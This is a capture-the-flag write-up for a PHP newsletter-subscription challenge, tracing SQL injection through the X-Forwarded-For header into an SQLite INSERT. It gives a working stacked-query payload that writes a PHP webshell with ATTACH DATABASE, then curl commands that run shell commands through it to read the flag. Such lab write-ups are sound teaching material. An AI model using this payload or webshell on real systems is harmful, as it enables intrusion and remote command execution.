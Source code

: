 # Intergalactic Post

> The biggest intergalactic newsletter agency has constantly been spreading misinformation about the energy crisis war. Bonnie's sources confirmed a hostile takeover of the agency took place a few months back, and we suspect the Golden Fang army is behind this. Ulysses found us a potential access point to their agency servers. Can you hack their newsletter subscribe portal and get us entry?

---

The target is a PHP web application.

## Endpoints

### `GET /`
- `IndexController.php`'s `index()`
- Renders `views/index.php`
- Contains subscription form (`POST /subscribe`) and that's pretty much it

### `POST /subscribe`

```http
POST /subscribe HTTP/1.1
Host: localhost:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: http://localhost:1337
Connection: close
Referer: http://localhost:1337/
Upgrade-Insecure-Requests: 1

email=tgihf%40blah.com
```

- `POST /subscribe` calls `SubsController.php`'s `store()`.

```php
public function store($router) {
	$email = $_POST['email'];
	if (empty($email) || !filter_var($email, FILTER_VALIDATE_EMAIL)) {
		header('Location: /?success=false&msg=Please submit a valild email address!');
		exit;
	}
	$subscriber = new SubscriberModel;
	$subscriber->subscribe($email);
	header('Location: /?success=true&msg=Email subscribed successfully!');
	exit;
}
```

- Extracts email from `POST` body
- **Returns** an error if either of the following are true:
	- `email` is empty
	- `filter_var($email, FILTER_VALIDATE_EMAIL)` returns false
		- [filter_var($email, FILTER_VALIDATE_EMAIL)](https://www.w3schools.com/php/filter_validate_email.asp) is a built in way to validate the format of email address strings
- Calls `SubscriberModel.php`'s `subscribe()`

```php
public function subscribe($email) {
	$ip_address = $this->getSubscriberIP();
	return $this->database->subscribeUser($ip_address, $email);
}
```

- Calls `SubscriberModel.php`'s `getSubscriberIP()`
	- Returns `$_SERVER`'s `HTTP_X_FORWARDED_FOR`, `REMOTE_ADDR`, or `HTTP_CLIENT_IP` value if it exists
	- The `HTTP_X_FORWARDED_FOR` value is the value of the client's `X-Forwarded-For` header, if it exists

```php
public function getSubscriberIP() {
	if (array_key_exists('HTTP_X_FORWARDED_FOR', $_SERVER)){
		return  $_SERVER["HTTP_X_FORWARDED_FOR"];
	} else if (array_key_exists('REMOTE_ADDR', $_SERVER)) {
		return $_SERVER["REMOTE_ADDR"];
	} else if (array_key_exists('HTTP_CLIENT_IP', $_SERVER)) {
		return $_SERVER["HTTP_CLIENT_IP"];
	}
	return '';
}
```

- Then calls `Database.php`'s `subscribeUser()`
	- `ip_address` and `email` are concatenated directly into the `INSERT INTO` statement
	- This is a definite SQL injection vulnerability
	- `ip_address` is the request's `X-Forwarded-For` header, if it exists

```php
public function subscribeUser($ip_address, $email) {
	return $this->db->exec("INSERT INTO subscribers (ip_address, email) VALUES('$ip_address', '$email')");
}
```

## Subscriber SQL Injection to Command Execution

It is possible to inject into `subscribeUser()`'s `INSERT` statement by setting the `X-Forwarded-For` header in the HTTP `POST` request.

SQLite allows stacked queries. Thus, it is possible to finish the initial `INSERT` statement and inject arbitrary statements afterwards. Use the [ATTACH DATABASE](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#remote-command-execution-using-sqlite-command---attach-database) method to write a PHP webshell within the web root.

```http
POST /subscribe HTTP/1.1
Host: 68.183.37.6:31310
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: http://68.183.37.6:31310
Connection: close
Referer: http://68.183.37.6:31310/
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 1.2.3.4', 'tgihf@blah.com'); ATTACH DATABASE '/www/static/blah.php' as db; CREATE TABLE db.pwn (dataz text); INSERT INTO db.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--

email=tgihf%40blah.com
```

Leverage the webshell to determine the name of the flag file: `/flag_1d23c48aade7db8.txt`.

```bash
$ curl 'http://68.183.37.6:31310/static/blah.php?cmd=ls+/flag*' --output -
 I/flag_1d23c48aade7db8.txtwn (dataz text)
```

Read the flag.

```bash
$ curl 'http://68.183.37.6:31310/static/blah.php?cmd=cat+/flag_1d23c48aade7db8.txt' --output -
 IHTB{...} pwn (dataz text)
```
